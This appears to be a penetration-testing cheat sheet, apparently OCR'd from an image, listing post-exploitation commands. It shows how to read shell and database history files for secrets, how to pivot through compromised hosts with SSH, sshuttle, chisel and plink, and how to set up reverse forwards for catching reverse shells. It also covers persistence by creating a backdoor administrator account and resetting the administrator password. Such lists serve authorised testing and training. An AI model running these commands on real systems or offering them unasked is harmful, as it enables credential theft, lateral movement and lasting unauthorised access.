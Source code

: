 ```
cat ~/.bash_logout
cat ~/.bash_history
cat ~/.nano_history
cat ~/.atftp_history
cat ~/.mysql_history
cat ~/.php_history
```
## Pivot
- Port Forward with SSH
```
ssh -l root -pw password -R 445:<VICTIMIP>:445 <ATTACKIP>
# local port forwarding
ssh -R 0.0.0.0:10521:127.0.0.1:1521 user@10.0.0.1 # Local port 1521 accessible in port 10521 from everywhere
ssh -R 0.0.0.0:10521:10.0.0.1:1521 user@10.0.0.1 #Remote port 1521 accessible in port 10521 from everywhere
# Local port -> Compromised host (SSH) -> Third_box:port
ssh -i ssh_key <user>@<ip_compromised> -L <attacker_port>:<ip_victim>:<remote_port> [-p <ssh_port>] [-N -f]  #This way the terminal is still in your host 
sudo ssh -L 631:<ip_victim>:631 -N -f -l <username> <ip_compromised>
# Local port -> Compromised host (SSH) -> Wherever
ssh -f -N -D <attacker_port> <username>@<ip_compromised> #All sent to local port will exit through the compromised server (use as proxy)
# Reverse Port forward (get rev shells from internal hosts thru DMZ to you)
ssh -i dmz_key -R <dmz_internal_ip>:443:0.0.0.0:7000 root@10.129.203.111 -vN
### Now you can send a rev to dmz_internal_ip:443 and caputure it in localhost:7000
### Note that port 443 must be open
### Also, remmeber to edit the /etc/ssh/sshd_config file on Ubuntu systems 
### and change the line "GatewayPorts no" to "GatewayPorts yes"
### to be able to make ssh listen in non internal interfaces in the victim (443 in this case)
```
- Port forwarding tools
```
# sshuttle
pip install sshuttle
sshuttle -r user@host 10.10.10.10/24
sshuttle -D -r user@host 10.10.10.10 0/0 --ssh-cmd 'ssh -i ./id_rsa' # connect with a private key; -D : Daemon mode
# chisel
./chisel_1.7.6_linux_amd64 server -p 12312 --reverse #Server -- Attacker
./chisel_1.7.6_linux_amd64 client 10.10.14.20:12312 R:4505:127.0.0.1:4505 #Client -- Victim
# plink.exe
plink.exe -l test -pw toto -R 445:<VICTIMIP>:445 <ATTACKIP>
plink.exe -R 445:<VICTIMIP>:445 <ATTACKIP>
```
## Persistance
- User Creation
```
PS C:\> net user bill P@ssw0rd123 /add
PS C:\> net localgroup administrators bill /add
PS C:\> net localgroup "Remote Desktop Users" bill /add
```
- Changing the system password
```
net user administrator Passw0rd!
```
# Privesc
## Windows
- WinPEAS
- JuicyPotato